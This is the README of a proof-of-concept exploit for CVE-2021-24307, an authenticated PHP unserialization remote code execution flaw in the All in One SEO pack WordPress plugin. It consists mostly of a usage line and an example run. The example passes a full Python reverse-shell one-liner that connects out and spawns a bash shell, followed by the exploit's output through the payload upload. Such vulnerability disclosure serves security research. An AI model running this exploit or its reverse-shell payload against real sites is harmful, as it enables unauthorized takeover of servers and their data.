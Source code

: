 #  Admin PHP unserialization RCE in All in one SEO pack (CVE-2021-24307)

Simple PoC of an admin authenticated RCE in AISEO <= 4.1.0.1 provided as an example.

Full write-up here: https://darkpills.com/php-unserialize-write-up-with-admin-rce-in-all-in-one-seo-pack-cve-2021-24307/


Usage:
```
php exploit.php url login password php_command arguments [proxy]
```

Example:
```
└─$ php exploit.php http://wordpress/ admin admin shell_exec "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'" localhost:8080

-- All-in-one-seo-pack <= 4.1.0.1 authenticated admin RCE --
-- Exploit by Vincent MICHEL (@darkpills) --

[+] Authenticating to wordpress http://wordpress/
[+] Getting WP REST API nonce
[+] Nonce found: 6aeb9ddf05
[+] Generating POST payload to execute command: shell_exec("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'")
[+] Uploading ini file with import settings
[+] Done! Check the result somewhere (blind command execution)
```